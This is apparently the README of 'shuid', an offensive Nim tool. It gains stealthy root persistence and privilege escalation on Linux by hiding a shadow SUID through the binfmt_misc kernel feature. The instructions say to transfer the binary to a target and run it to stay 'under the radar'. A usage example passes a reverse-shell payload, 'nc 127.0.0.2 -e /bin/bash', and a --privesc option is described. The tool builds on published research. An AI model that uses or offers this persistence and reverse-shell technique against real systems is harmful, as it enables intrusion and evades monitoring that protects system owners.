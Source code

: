 <div align=center>
<img src=./img/icon2.png>
<sup>*<i>«shuid» stands for shadow SUID file</i></sup>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home! 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, you are under the radar. The process to obtain root shell will be outputted 


##### More granular

You have other possibilitles to sharpen the exploit. For example you can choose which SUID will hide your "shuid file" and trigger your payload (`-c`). And, of course, you can also custom the payload (`--payload`).
An example:
```shell
./shuid --file "/path/to/suid/file" --payload "nc 127.0.0.2 -e /bin/bash"
```

## Road to root! 🛣 <sup>(privesc)</sup>

Under certain circumstances, the trick can be used to gain elevated privileged. You can test it with:

```shell
./shuid --privesc
```

## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>
